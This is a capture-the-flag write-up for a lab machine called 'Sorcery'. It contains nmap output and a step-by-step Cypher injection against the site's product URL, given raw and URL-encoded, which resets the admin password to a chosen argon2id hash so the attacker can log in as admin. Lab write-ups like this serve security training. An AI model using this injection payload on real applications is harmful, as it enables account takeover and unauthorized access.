

# Sorcery

Difficulty: Insane
OS: Linux
Category: Red Team


## **NOTE!**

This box is faulty, and some methods may be patched when this machine expires or retired.

# Reconnaissance

```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 79:93:55:91:2d:1e:7d:ff:f5:da:d9:8e:68:cb:10:b9 (ECDSA)
|_  256 97:b6:72:9c:39:a9:6c:dc:01:ab:3e:aa:ff:cc:13:4a (ED25519)
443/tcp open  ssl/http nginx 1.27.1
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
|_http-server-header: nginx/1.27.1
| ssl-cert: Subject: commonName=sorcery.htb
| Not valid before: 2024-10-31T02:09:11
|_Not valid after:  2052-03-18T02:09:11
|_ssl-date: TLS randomness does not represent time
|_http-title: Did not follow redirect to https://sorcery.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There’s a website open in port 443, visit it.

---

*NOTE: It is recommended to use **Chrome** as your browser on this challenge.*

---

Create an account then login 



Upon logging in you’ll see a bunch of products in the dashboard, select one.

[Cypher Injection Cheat Sheet](https://pentester.land/blog/cypher-injection-cheatsheet/)

We can exploit the website by using **Cypher Injection.** We will insert our query after the product id (This is a direct method, refer to the link for more info). We will change the password of admin. From:

```bash
GET /dashboard/store/88b6b6c5-a614-486c-9d51-d255f47efb4f
```

We will then paste this payload. Make sure you **URL Encode** this payload before making the request.

```bash
"}) WITH result MATCH (u:User {username:'admin'}) SET u.password = '$argon2id$v=19$m=32768,t=2,p=1$c29tZXNhbHQ$TwnvITHeonF5W7P/GQH0sLr+yntWG4LeIZkd7sNFxwE' RETURN result { .*, description:'admin password updated' } //
```

To:

```bash
GET /dashboard/store/88b6b6c5-a614-486c-9d51-d255f47efb4f%22%7D%29%20WITH%20result%20MATCH%20%28u%3AUser%20%7Busername%3A%27admin%27%7D%29%20SET%20u.password%20%3D%20%27%24argon2id%24v%3D19%24m%3D32768%2Ct%3D2%2Cp%3D1%24c29tZXNhbHQ%24TwnvITHeonF5W7P%2FGQH0sLr%2ByntWG4LeIZkd7sNFxwE%27%20RETURN%20result%20%7B%20.%2A%2C%20description%3A%27admin%20password%20updated%27%20%7D%20%2F%2F
```

You can see the result after you make the request, this means the password for the user `admin` has been updated.


Now, logout and login as admin with the password that you set.